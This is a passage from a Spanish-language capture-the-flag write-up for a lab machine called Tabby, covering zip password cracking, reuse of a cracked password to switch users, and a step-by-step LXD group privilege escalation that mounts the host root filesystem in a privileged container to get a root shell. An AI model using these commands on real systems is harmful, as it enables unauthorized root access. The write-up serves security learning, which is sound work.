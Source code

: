* -v : Nos muestra el progreso de lo que va encontrando
* -u : Para que intente descomprimir el archivo apenas encuentre la contraseña
* -D : Modo diccionario
* -p : Pasamos el diccionario que usará

Listos, procedamos a ver que tenemos dentro... Pues nada importante. (Acá estuve un buen rato, enumerando y enumerando, ya que no sabía hacia donde ir).

Pues resulta que si probamos en la máquina:

```bash
tomcat@tabby:/var/lib/tomcat9$ su ash
Password: admin@it

ash@tabby:/var/lib/tomcat9$
```

Estamos dentro como el usuario **ash** :P Tenemos el flag del user.

...

## Escalada de privilegios {#escalada-de-privilegios}

Inspeccionemos O.O

Enumerando los grupos en los que esta **ash** vemos que está en el grupo **lxd**. 

```bash
ash@tabby:/dev/shm$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

De una recorde un video de [s4vitar](https://www.youtube.com/watch?v=DJydodFguU4) en el que explota este grupo... De igual forma dejo unos artículos que también explican como aprovecharse del grupo para obtener una Shell como usuario administrador.

* [Hacking Articles](https://www.hackingarticles.in/lxd-privilege-escalation/).
* [Ethical Hacking Guru](https://ethicalhackingguru.com/the-lxd-privilege-escalation-tutorial-how-to-exploit-lxd/).
* [S4vitar](https://www.youtube.com/watch?v=DJydodFguU4).

Lo primero que debemos hacer es descargar y ejecutar en nuestra máquina atacante una imagen de un contenedor, en este caso usaremos **alpine**.

```bash
─╼ $ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
─╼ $ chmod +x build-alpine
─╼ # ./build-alpine
...
─╼ # ls
alpine-v3.12-x86_64-20201007_0822.tar.gz  build-alpine
```

Nos generará la imagen y ese es el que moveremos a la máquina victima. Estando en la máquina victima haremos esto:

```bash
# Creamos el contenedor 
ash@tabby:/dev/shm$ lxc image import alpine-v3.12-x86_64-20201007_0822.tar.gz --alias alpina
ash@tabby:/dev/shm$ lxd init --auto
# Desplegamos el contenedor
ash@tabby:/dev/shm$ lxc init alpina privesc -c security.privileged=true
Creating privesc
# Le indicamos que nos haga una montura de todo el directorio raiz en la ruta `/mnt/root` 
ash@tabby:/dev/shm$ lxc config device add privesc container disk source=/ path=/mnt/root recursive=true
Device container added to privesc
# Iniciamos el contenedor
ash@tabby:/dev/shm$ lxc start privesc
# Le indicamos que nos ejecute una shell con `sh`
ash@tabby:/dev/shm$ lxc exec privesc sh
```